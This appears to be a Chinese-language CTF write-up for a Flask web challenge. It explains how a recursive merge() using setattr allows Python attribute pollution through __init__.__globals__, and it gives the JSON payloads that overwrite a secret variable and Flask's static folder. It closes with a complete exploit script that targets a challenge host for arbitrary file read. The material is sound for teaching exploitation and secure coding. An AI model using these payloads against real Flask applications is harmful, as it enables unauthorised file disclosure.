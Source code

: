 
#wp #web #flask全局变量污染 #非预期

【[[WEB]]】【WEB】flask - [[扩展题目]]

创建时间：2025-07-15 19:41

### 解题过程
## “非预期”利用链完整剖析

> **一句话概括**  
> 出题人只想让选手通过业务逻辑或 Jinja2/SSTI 去读 `flag`，但由于
> 
> 1. **递归合并函数 `merge()`** 把 _任意 JSON 键_ 写入 **任意 Python 对象**；
>     
> 2. Flask 在运行时暴露了可读可写的 **全局对象 `app`**；
>     
> 3. Flask 允许 **带 body 的 GET** 请求；
>     
> 
> 攻击者可以一次请求就重写
> 
> ```python
> secret_var        # 让 / 路由通过 if 判断
> app._static_folder  # 把静态目录改到任意路径
> ```
> 
> 再用 `/static/文件名` 直接下载服务器文件，从而**旁路**了全部原设计步骤。

---

### 1 merge() 的“Python 原型链污染”本质

```python
def merge(src, dst):
    for k, v in src.items():
        if isinstance(v, dict) and hasattr(dst, k):
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)   # ★ 关键漏洞：向任意对象写属性
```

- 问题关键：**`setattr(dst, k, v)`** 会把 `k` 当成属性写进 `dst`；
    
- 只要我们能把 `dst` 引到 **模块对象** 或 **Flask app 对象**，就能修改其内部状态；
    
- 引用链利用 **双下划线属性** (`__globals__`、`__self__`、`__init__` 等) 可从普通函数一路追到模块全局命名空间。
    

> 这种“把任意 JSON 深度合并到 Python 对象” ≈ JS 里的 Prototype Pollution，只是换到 Python 叫 “Attribute Pollution”。

---

### 2 写 `secret_var` 触发 `/` 逻辑分支

源码节选：

```python
secret_var = 0            # 初始为 0

@app.route('/')
def home():
    if secret_var == 123414435:
        with open('Thechickenarmylivesforever', 'rb') as f:
            return Response(f.read())
    return "哥哥之物就交给你了!!!\nflag在 Thechickenarmylivesforever文件里"
```

我们构造 JSON：

```json
{
  "__init__": {
    "__globals__": {
      "secret_var": 123414435
    }
  }
}
```

- `__init__` → 拿到绑定方法对象；
    
- `__globals__` → 进入模块字典；
    
- 最终把 `secret_var` 覆盖为目标值，`/` 视图就会尝试读取文件。
    

---

### 3 写 `app._static_folder` 实现任意文件下载

Flask 中静态资源由 `send_from_directory(app._static_folder, path)` 处理。  
将その值改到项目根目录 `.`（或直接 `/`）即可把服务器中任何可读文件映射到 `/static/` 路由。

```json
{
  "__init__": {
    "__globals__": {
      "app": {
        "_static_folder": "."
      }
    }
  }
}
```

与写 `secret_var` 合并后，一次 `/chick` 请求即可同时污染两处全局变量。

---

### 4 第三步：读取目标文件

1. 先访问 `/chick`（GET + body），触发两处污染；
    
2. 再访问
    
    ```
    /static/Thechickenarmylivesforever
    ```
    
    Flask 会按新的静态根目录把文件内容直接回传。
    
3. 结果即 flag
    
    ```
    flag{tou_and@fewOo!!very happy(^.^)..because_of)you}
    ```
    

这条链子**完全不依赖**模板渲染、路径穿越或 RCE，属于典型的 **低复杂度全局状态污染** 非预期。

---
exp
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
getflag_v2.py  –  先污染 secret_var，再把 app._static_folder 指到 '.',
最后通过 /static/Thechickenarmylivesforever 拿 flag
"""
import json, requests, sys, re

base = "http://110.42.47.169:35870"          # ← 换成你的 URL:PORT
if len(sys.argv) == 2:
    base = sys.argv[1].rstrip("/")

HEADERS = {"Content-Type": "application/json"}

# -------- ① 一次性把两个全局变量都改掉 --------
payload = {
    "__init__": {
        "__globals__": {
            "secret_var": 123414435,             # 让 home() 满足 if
            "app": {"_static_folder": "."}       # 把静态目录改到程序根目录
        }
    }
}

print("[*] 污染全局变量 …")
r1 = requests.get(f"{base}/chick", data=json.dumps(payload), headers=HEADERS, timeout=8)
print("    /chick →", r1.status_code, r1.text.strip())

# -------- ② 直接 GET 静态资源 --------
target = f"{base}/static/Thechickenarmylivesforever"
print("[*] 尝试读取", target)
r2 = requests.get(target, timeout=8)

if r2.status_code == 200 and r2.text.strip():
    flag = re.search(r"[if]dek\{[0-9a-f]{32}\}", r2.text, re.I)
    if flag:
        print("\n[+] 成功拿到 flag:", flag.group())
    else:
        print("\n[+] 读取成功，但未匹配到 idek/flag 格式，完整内容 ↓↓↓\n")
        print(r2.text[:500])
else:
    print(f"[!] 读取失败 ({r2.status_code})，响应前 200 字节：\n{r2.text[:200]}")

```
---
![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250716235047632.png)
离谱。